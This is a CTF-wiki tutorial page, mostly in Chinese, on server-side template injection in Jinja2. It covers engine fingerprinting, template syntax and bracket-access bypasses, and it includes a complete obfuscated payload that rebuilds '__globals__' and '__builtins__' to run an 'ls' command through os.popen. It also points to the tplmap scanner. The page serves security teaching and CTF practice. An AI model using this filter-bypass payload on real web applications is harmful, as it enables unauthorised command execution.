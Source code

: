 # SSTI
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/).



## 定义以及理解

模板注入涉及的是服务端Web应用使用模板引擎渲染用户请求的过程

模版引擎一般都默认对渲染的变量值进行编码和转义，所以并不会造成跨站脚本攻击。

如果服务端将用户的输入作为了模板的一部分，那么在页面渲染时也必定会将用户输入的内容

进行模版编译和解析最后输出。

最大的优点就是你可以在服务器端动态生成HTML页面，看起来跟静态HTML页面一样。

首先我们先讲解下什么是模板引擎，为什么需要模板，模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。但是往往新的开发都会导致一些安全问题，虽然模板引擎会提供沙箱机制，但同样存在沙箱逃逸技术来绕过。

（快捷方便------>承担风险）

所以漏洞的来源还是那一个：过于信任用户所输入的数据。



![img](https://tcs-devops.aliyuncs.com/storage/11241ba5a4bc12bae229287158179cff4836?Signature=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJBcHBJRCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9hcHBJZCI6IjVlNzQ4MmQ2MjE1MjJiZDVjN2Y5YjMzNSIsIl9vcmdhbml6YXRpb25JZCI6IiIsImV4cCI6MTYyNjM0OTM2MSwiaWF0IjoxNjI1NzQ0NTYxLCJyZXNvdXJjZSI6Ii9zdG9yYWdlLzExMjQxYmE1YTRiYzEyYmFlMjI5Mjg3MTU4MTc5Y2ZmNDgzNiJ9.-UXB24hXZzUZ9TqPnUJABW9ONURC_wcLsIvsnTRqz18)





祭出这张经典的图，经常用来判断模板类型



需要关注的点：{{7*‘7’}}



Jinja2输出为49

TWIG输出为7777777

那么到底这个东西能干嘛呢？

先给出初步印象（jinja2）：

用户输入{{7+7}}

然后服务器帮你运行{{}}中的代码，算出来=49.

就是相当于服务器帮你解析运行了你输入的数据，这时候我们如果输入的是恶意的代码........

## 基础语法

~~觉得写的太少了想添加欢迎。~~


```plain
{% ... %} for Statements
{{ ... }} for Expressions to print to the template output
{# ... #} for Comments not included in the template output
#  ... # for Line Statements
Plain Text
```



这个是官方文档的介绍


{%%}可以用来声明变量，当然也可以用于循环语句和条件语句。


{{}}用于将表达式打印到模板输出


{##}表示未包含在模板输出中的注释


##可以有和{%%}相同的效果


```plain
{% set x= 'abcd' %}  声明变量
{% for i in ['a','b','c'] %}{{i}}{%endfor%} 循环语句
{% if 25==5*5 %}{{1}}{% endif %}  条件语句
Plain Text
```



```plain
# for i in ['a','1']{{ i }}# endfor
{% for i in ['a','1'] %}{{ item }}{% endfor %}
这两条是等效的，但是有个前提，必须在environment中配置line_statement_prefix即app.jinja_env.line_statement_prefix="#"
Plain Text
```



You can use a dot (.) to access attributes of a variable in addition to the standard Python __getitem__ “subscript” syntax ([]). --官方原文


除了标准的python语法使用点`（.）`外，还可以使用中括号`（[]）`来访问变量的属性。


```plain
{{"".__class__}}
{{""['__classs__']}}
Plain Text
```



从某种意义上，这也是一种绕过。


有些题目会写的很长，不妨拿个过来看看，如果能看懂那基础（甚至是进阶）部分应该就没什么问题了。


```plain
{% set id=dict(ind=a,ex=a)|join%}#利用join过滤器拼接成index，下面几个类似
{% set pp=dict(po=a,p=a)|join%}
{% set ls=dict(ls=a)|join%}
{% set ppe=dict(po=a,pen=a)|join%}
{% set gt=dict(ge=a,t=a)|join%}
{% set cr=dict(ch=a,r=a)|join%}
{% set nn=dict(n=a)|join%}
{% set tt=dict(t=a)|join%}
{% set ff=dict(f=a)|join%}
{% set ooqq=dict(o=a,s=a)|join %}
{% set rd=dict(re=a,ad=a)|join%}
{% set five=(lipsum|string|list)|attr(id)(tt) %}#这里用lipsum过滤器最终能够取得数字5{具体流程：生成随机数字->字符串列表输出->index("f")找字符'f'在生成的列表中的第一次出现的位置..}（lorem is not just a normal snippet—it’s actually a generator. Every time you expand it, it will generate a 30-words dummy text, splitted into a few sentences.）
{% set three=(lipsum|string|list)|attr(id)(nn) %}
{% set one=(lipsum|string|list)|attr(id)(ff) %}
{% set shiba=five*five-three-three-one %}
{% set xiahuaxian=(lipsum|string|list)|attr(pp)(shiba) %}#（这个是下划线，用pop取，和上面类似）
{% set gb=(xiahuaxian,xiahuaxian,dict(glob=a,als=a)|join,xiahuaxian,xiahuaxian)|join %}
{% set bin=(xiahuaxian,xiahuaxian,dict(builtins=a)|join,xiahuaxian,xiahuaxian)|join %}
{% set chcr=(lipsum|attr(gb))|attr(gt)(bin)|attr(gt)(cr) %}
{% set xiegang=chcr(three*five*five-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one-one)%}
{% set space=chcr(three*three*five-five-five-three) %}
{% set shell=(ls,space,xiegang,dict(var=a)|join,xiegang,dict(www=a)|join,xiegang,dict(flask=a)|join)|join %}
{{(lipsum|attr(gb))|attr(gt)(ooqq)|attr(ppe)(shell)|attr(rd)()}}
```

不做过多解释，之后你还会看到他的。

## 使用工具

tplmap:ssti扫描工具，在初期会带给你美妙的体验

```
git clone https://github.com/epinna/tplmap
```

至于用法-h自己慢慢摸索。

## Django报错

不是ssti


但是是模板所以放这了，原理是溢出


%80后的字符结合报错信息UnicodeEncodeError可以推断是由于ascii编码不支持导致的报错


网站是使用Django进行开发的,结合PHP可以通过在参数中注入@来读取文件的漏洞,依次查看python的配置文件和数据库得到flag的内容


（这个我自己总结图片被吞掉了，先放着）
